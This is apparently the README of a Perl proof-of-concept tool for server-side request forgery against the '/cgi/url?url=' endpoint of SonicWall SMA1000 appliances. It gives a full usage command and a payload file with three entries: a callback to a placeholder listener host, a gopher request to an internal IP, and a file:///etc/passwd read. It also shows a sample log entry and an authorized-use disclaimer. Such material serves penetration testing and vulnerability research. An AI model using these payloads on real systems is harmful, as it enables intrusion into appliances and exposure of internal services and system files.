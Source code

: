 # Advanced SSRF PoC for SonicWall SMA1000

**Author:** TURKI ALNAFIE  
**Created:** 2025-06-18

---

## 🛠 Usage

```bash
perl ssrf_advanced.pl \
  --target   https://SMA_HOST_OR_IP          \
  --endpoint '/cgi/url?url='                 \
  --payloads payloads.txt                    \
  --threads  10                              \
  --timeout  5                               \
  --verbose
```

---

## 🧪 Payloads Format

```text
# payloads.txt
http://YOUR_LISTENER:8000/
gopher://10.0.2.15/_HEAD / HTTP/1.1\r\nHost:10.0.2.15\r\n\r\n
file:///etc/passwd
```

- Each payload is a potential SSRF target.
- Ensure each payload is on a new line.
- Comment lines (starting with `#`) are ignored.

---

## 📄 Logging & Output

- **Verbose mode** prints each request and response summary to STDOUT.
- **Non-200 responses** are saved to a file named `ssrf_errors.log`.

Example log entry:
```text
Wed Jun 18 22:15:03 2025 | 403 | https://10.0.0.5/cgi/url?url=http%3A%2F%2FYOUR_LISTENER%3A8000%2F
```

---

> ⚠️ **Note:** This tool is for authorized security testing only. Misuse may violate laws or policies.
